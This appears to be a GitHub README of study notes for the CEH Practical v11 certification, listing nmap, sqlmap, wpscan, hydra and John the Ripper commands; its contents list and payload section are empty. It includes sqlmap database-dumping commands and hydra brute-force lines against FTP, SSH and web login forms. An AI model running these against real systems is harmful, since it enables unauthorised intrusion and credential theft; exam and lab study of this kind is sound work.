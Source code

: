 # practicemyself
CEH Practical Important Notes

I'm Preparing CEH Practical V11. hope it will be help full to all of you guys. If any suggetions to me just connect with twitter and dm me. Thank You.

## CEH Practical Contents:
1.
2.
3.
4.
5.
6.
7.
8.
9.
10
11.
12.
14.
15.

## Important Tools and Commands:
1. Nmap:
  $ nmap -sV -sC -O <IP>
  
  -iL = import txt  -oX = output   --top-ports 1000 = UDP 1000 scan   -sU = UDP scan   -sT = TCP scan 
  
2. SQLmap
  for url= -u
  for txtfile= -r
  $ sqlmap -r test.txt --batch --risk 3 --level 4 --dbs
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename --tables
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename -T tables name --dump

3. WPscan
  $ wpscan --url http://test.com --enumerate u --enumerate p
  $ wpscan --url http://test.com --usernames user.txt --passwords pass.txt
  
  Other Commands: --random-agent, 

4. Hydra
  FTP Bruteforce:
  $ hydra -l user -P passlist.txt ftp://IP

  SSH Bruteforce:
  $ hydra -l <username> -P <full path to pass> IP -t 4 ssh

  Post Web Form Bruteforce:
  for single word= -l, -p
  for txt file= -L, -P
  $ hydra -l <username> -P <wordlist> IP http-post-form "/loginUrl:username=^USER^&password=^PASS^:F=incorrect" -V

5. John the Ripper
  $ john -format=raw-md5 hash.txt
  $ john -format=<hashformat> hash.txt
  
6. SSH
  SSH connect:
  $ ssh <username>@IP
  
7. FTP
  FTP Connect
  $ ftp IP

## SQL Injection Payloads:
